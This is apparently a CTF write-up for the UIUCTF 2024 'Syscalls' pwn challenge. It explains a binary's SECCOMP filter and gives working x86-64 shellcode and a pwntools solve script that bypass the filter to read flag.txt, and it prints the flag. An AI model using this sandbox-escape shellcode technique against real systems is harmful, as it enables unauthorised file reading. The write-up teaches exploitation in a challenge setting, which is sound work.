

A couple weekends ago I played UIUCTF 2024 with b01lers. As always, the folks at UIUC and sigpwny put on a great CTF! The theme was super cool and the challenges were very interesting. I solved `Backup Power` and `Syscalls`; the write-up for `Syscalls` is below. 

# Syscalls | pwn

This challenge was pretty straightforward. Upon analyzing the binary, we find a main function as seen below. 

```c
void main(void) {
  long in_FS_OFFSET;
  undefined buffer [184];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  vuln(buffer);
  meat_and_potatoes();
  exec(buffer);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

Some buffering is set up so that we can interact over `nc` and then the first notable function, `vuln()`, is called. This function simply takes in 176 bytes over 
stdin and places them in `buffer`. No overflow but as we'll come to find out later that doesn't matter. 

Next, the aptly named function, `mean_and_potatoes()`, is called. Inside it, it uses a couple calls to the function `prctl()` to first set some "capabilities". I 
had never seen this function before, so the man pages and the source code in `prctl.h` helped me figure out what it was doing. Here are some links for reference: 
1. https://linux.die.net/man/2/prctl
2. https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h

Below is the bottom bit of the `meat_and_potatoes()` function. 

```c
  prctl(38,1,0,0,0);
  iVar1 = prctl(22,2,local_e8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar1;
}
```
The first call to `prctl()` enables `PR_SET_NO_NEW_PRIVS` which ensures no elevated privileges are granted to the process. The next call will enable SECCOMP in 
filter mode. With SECCOMP enabled we will be restricted in what syscalls this program can make. The BPF filter is set up on the stack in the beginning of this
function and it took me a bit to figure out what it was at first. The last argument to the second call to `prtctl()` points to the BPF filter. 

Before we dive into what syscalls are filtered lets look at the last notable function called in `main()`, `exec()`. This function will simply execute any shellcode 
placed in `buffer` which we control. So, our objective will be to write some shellcode that gets around the SECCOMP filters and prints out the flag. 

Using the nifty tool `seccomp-tools` we can turn the SECCOMP BPF filter into something human readable. After dumping the filter, my teammate `@athryx` helped me 
analyze it and come up with an exploit. The filter can be seen below. 



Looking above we can see that some notable syscalls, `read`, `write`, `open`, `execve`, `exevveat`, are banned. Also, `writev` will block File Descriptors (FDs)
below `0x3e8`.  How unfortunate. Nevertheless, let's walk through each section of shellcode in the final exploit.

The first bit:

```c
push 1
dec byte ptr [rsp]
mov rax, 0x7478742e67616c66
push rax
push 257
pop rax
mov rsi, rsp
mov rdi, -0x64
xor rdx, rdx
syscall
mov r11, rax
```

Here, we'll push the string `flag.txt` onto the stack, get a stack pointer to it, and eventually place that stack pointer into `rsi`. We'll then set up a call to 
the `openat` syscall to try and get an open FD to the file `flag.txt`. `openat` will open a FD relative to a directory, so we can place the special value `-0x64` as
the first arg in `rdi` so that `openat` will look at the current directory for the file. Then, we'll place our stack pointer to `flag.txt` into `rsi`, set `rdx` to 0, then place the resultant FD into `r11` for use later. 

The second bit: 
```c
mov rax, 9
mov rdi, 0
mov rsi, 100
mov rdx, 1|2
mov r10, 2
mov r8, r11
mov r9, 0
syscall
mov r10, rax
```

The second bit will use the `mmap` syscall to put the contents of `flag.txt` into an arbitrary section of memory. In `rdi` we'll place 0 to indicate we want to mmap an arbitrary section of memory and in `rsi` we'll place 100 which is the number of bytes we want to read in (overkill, but whatever). In `rdx` we'll make it so the 
memory page we get is readable and writeable and in `r10` we'll make the mapping private. Finally, the FD will go from `r11` into `r8` and in `r9` we'll place a 0. 

The third bit:
```c
mov rax, 33
mov rdi, 1
mov rsi, 0x3ea
syscall
```
The third bit we'll use something super cool called the `dup2` syscall. This will let us take one FD and turn it into a different one. Since `writev` blocks anything
below `0x3e8` and stdout is `1`, we can simply change stdout to be something else! Cool, right?! We'll change it to `0x3ea` here. 

The final bit:
```c
push 100
push r10
mov rdi, 0x3ea
mov rsi, rsp
mov rdx, 1
mov rax, 20
syscall
```

In the final bit, we'll first move our new stdout FD into `rdi`. Since the second arg of `writev` is a pointer to a struct of type `iovec`, we'll need to 
do some finagling. We can just push the values we want in the struct; `100` for the size to write and the contents of `r10`, the address of the mmapped `flag.txt`,
onto the stack. `rsp` is used like a pointer and mimics the struct which is placed in `rsi`. Finally `1` gets thrown in `rdx` since we only want to print one buffer. 

And that should do it! Once we send this shellcode to the remote server running this challenge we should get the flag printed out! Super fun and interesting 
challenge. Full solve script below. 

```python
from pwn import *

elf = context.binary = ELF("syscalls")
context.terminal = ['tmux', 'split-window', '-h']
p = remote("syscalls.chal.uiuc.tf", 1337, ssl=True)

shellcode = '''
push 1
dec byte ptr [rsp]
mov rax, 0x7478742e67616c66
push rax
push 257
pop rax
mov rsi, rsp
mov rdi, -0x64
xor rdx, rdx
syscall
mov r11, rax

mov rax, 9
mov rdi, 0
mov rsi, 100
mov rdx, 1|2
mov r10, 2
mov r8, r11
mov r9, 0
syscall
mov r10, rax

mov rax, 33
mov rdi, 1
mov rsi, 0x3ea
syscall

push 100
push r10
mov rdi, 0x3ea
mov rsi, rsp
mov rdx, 1
mov rax, 20
syscall
'''

p.sendline(asm(shellcode))
p.interactive()

# uiuctf{a532aaf9aaed1fa5906de364a1162e0833c57a0246ab9ffc}
```


